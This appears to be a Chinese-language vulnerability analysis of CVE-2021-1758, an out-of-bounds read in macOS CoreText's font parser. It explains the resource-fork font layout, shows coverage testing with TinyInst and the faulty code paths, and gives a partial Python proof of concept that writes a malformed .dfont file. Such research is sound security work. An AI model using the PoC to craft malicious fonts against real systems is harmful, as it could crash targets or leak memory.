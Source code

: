 ```yaml
---
date: 2025-08-03T00:08:04+08:00
title: 深入解析CVE-2021-1758（CoreText越界读取漏洞）
tags: [漏洞分析,macOS,字体解析,内存安全]
authors: qife
description: 本文详细分析了macOS CoreText组件中libFontParser.dylib库的越界读取漏洞（CVE-2021-1758），包括Mac资源派生字体文件结构、漏洞触发条件及PoC构造过程，涉及TinyInst覆盖率测试和动态调试技术。
---
```


# CVE-2021-1758（CoreText越界读取）分析

## Mac资源派生字体文件

### 资源派生结构
现代macOS系统可以加载称为Mac资源派生（Resource Fork）的字体文件。这种遗留结构包含：
- **资源头**（16字节）：记录数据偏移/大小
- **资源数据**：多个资源条目（4字节长度+可变数据）
- **资源映射表**：包含类型列表、引用列表和名称列表

### 关键数据结构
```python
# 示例资源头结构
res_header = p32(data_offset) + p32(map_offset) + p32(data_len) + p32(map_len)
# 资源类型列表项
type_entry = b"FOND" + p16(res_count-1) + p16(ref_list_offset)
```

## 目标分析

### 测试环境搭建
使用CoreText框架的测试工具：
```objectivec
CFArrayRef descriptors = CTFontManagerCreateFontDescriptorsFromURL(url);
```

### 覆盖率分析
通过TinyInst获取执行路径：
```bash
sudo litecov -instrument_module libFontParser.dylib -- ./main font.dfont
```
- Arial字体：719个基本块
- 自定义字体：557-629个基本块（逐步修正结构后）

## 漏洞细节

### 触发路径
1. 绕过`CheckMapHeaderCommon`的字节序检查：
```c
res_map_offset = _byteswap_ulong(header[1]); // 需大端序
```
2. 操纵资源类型数量使`CheckMapCommon`提前返回：
```c
if(num_types <= 0) return 0; // 通过设置0xFFFF触发
```
3. 在`GetResourcePtrCommon`中触发OOB读取：
```c
memmove(dst, res_name_entry, name_len+1); // 未验证的偏移量
```

### PoC构造
```python
# 关键恶意结构
res_map += p16(0xffff)  # 欺骗类型检查
res_map += p16(0x6000)  # 可控的OOB偏移
with open("exp.dfont","wb") as f:
    f.write(pad(24)+res_data+res_map)
```

## 参考
- [STAR Labs安全公告STAR-21-1758](https://starlabs.sg/advisories/)
- macOS 10.15.4 (19E287)验证受影响
- 字体解析器未正确处理资源映射表验证